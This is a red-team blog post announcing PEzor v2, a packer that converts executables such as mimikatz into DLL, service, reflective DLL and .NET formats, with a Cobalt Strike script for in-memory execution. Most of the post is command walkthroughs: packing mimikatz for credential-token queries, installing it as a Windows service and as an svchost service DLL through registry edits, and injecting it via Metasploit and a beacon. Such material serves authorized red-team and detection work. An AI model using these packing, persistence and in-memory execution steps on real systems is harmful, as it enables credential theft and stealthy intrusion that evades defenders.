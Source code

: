 ```yaml
---
layout: default
---
```


_**Oct 26, 2020**_

# PEzor v2 — New Output Formats and Cobalt Strike Integration

The `execute-assembly` capability of [Cobalt Strike](https://www.cobaltstrike.com/)'s beacon lets operators execute .NET assemblies without touching the disk and it deeply influenced the recent offensive developments by pushing the community to move towards .NET. But wouldn't be nice if we could [execute arbitary executables in-memory](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html) with the same ease? Let's find out how we can achieve that with [PEzor](https://iwantmore.pizza/posts/PEzor.html)!

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike.jpg "PEzor with Cobalt Strike")

## Current State

[Cobalt Strike](https://www.cobaltstrike.com/) supports two techniques to execute in-memory post-ex capabilities:

1. [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn): this function orders the beacon implant to retrieve a [reflective DLL](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf) from the C2 server, create a sacrificial process, inject the payload in its memory and create a thread to execute the exported function `ReflectiveLoader`, responsible of manually mapping the foreign DLL into target process without requiring the OS loader. In order to produce a reflective DLL from a regular one, we need to update its source code to integrate [Stephen Fewer's library](https://github.com/stephenfewer/ReflectiveDLLInjection) and compile it.
2. [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly): this function orders the beacon implant to retrieve a .NET assembly from the C2 server, create a sacrificial process, inject a CLR hosting reflective DLL that will bootstrap the .NET runtime and pass the provided assembly to it. This technique doesn't require modification to the original source code since it can execute .NET PEs out of the box and for this reason it has been quite popular. However, we are limited to execute .NET assembly, so any native binary is a no-go if we don't want to touch the disk.

After some research, I thought I could improve [PEzor](https://iwantmore.pizza/posts/PEzor.html) in order to be able to produce different output formats than regular PE executables: if we can automate the process of converting an existing EXE/DLL/etc to other formats such as DLLs, reflective DLLs and .NET assemblies while maintaining the original semantic intact, we could implement a new command in [Cobalt Strike](https://www.cobaltstrike.com/) that can convert on the fly arbitrary executables and task the beacon to execute it in-memory.

## New Output Formats

Currently, PEzor supports the following new output formats, given an arbitrary executable or raw shellcode:

- **exe**: this is the only format that was supported by PEzor v1, that is a native binary
- **dll**: PEzor can now convert existing executables to their DLL counterpart, without requiring to recompile from the sources
- **service-exe**: it can produce a Service EXE version of the native binary, that exports required functions to be run as a system service
- **service-dll**: it can produce a Service DLL version of the native binary, that exports required functions to be run inside a `dllhost` process (ref: [Running a Service DLL](https://blog.didierstevens.com/2019/10/29/quickpost-running-a-service-dll/))
- **reflective-dll**: it can produce a reflective DLL version of the native binary, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's reflective_dll_inject](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/manage/reflective_dll_inject.rb) module
- **dotnet**: it can produce a .NET binary equivalent to the native one, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's execute_dotnet_assembly](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/execute_dotnet_assembly.rb) module

## Examples

Let's see how we can generate and execute the new formats.

- **exe**

```
# generate
$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> .\mimikatz.exe.packed.exe
```

- **dll**

```
# generate
$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

- **service-exe**

```
# generate
$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe
[SC] CreateService SUCCESS

C:\Users\Public> sc start mimiservice
SERVICE_NAME       : mimiservice
        TYPE               : 20  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 913
        FLAGS              : 0x0
```

- **service-dll**

```
# generate
$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll
        1 file(s) copied.

C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand
[SC] CreateService SUCCESS

C:\Users\Public> reg add "HKLM\SYSTEM\CurrentControlSet\services\SvcHostDemo\Parameters /v ServiceDll /t REG_EXPAND_SZ /d ^%SystemRoot^%\System32\SvcHostDemo.dll /f
The operation completed successfully.

C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /f
The operation completed successfully.

C:\Users\Public> sc start SvcHostDemo
SERVICE_NAME       : SvcHostDemo
        TYPE               : 30  WIN32
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1823
        FLAGS              : 0x0
```

- **reflective-dll**

```
# generate
$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'

# execute
msf5 > use post/windows/manage/reflective_dll_inject
msf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dll
msf5 post(windows/manage/reflective_dll_inject) > set WAIT 10
msf5 post(windows/manage/reflective_dll_inject) > run
```

![PEzor with Metasploit](../assets/images/pezor-metasploit.jpg "PEzor with Metasploit")

## Cobalt Strike Integration

Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll or dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).

```
# convert and execute reflective DLL
beacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# convert and execute .NET assembly
beacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike.jpg "PEzor with Cobalt Strike")

[back](../)
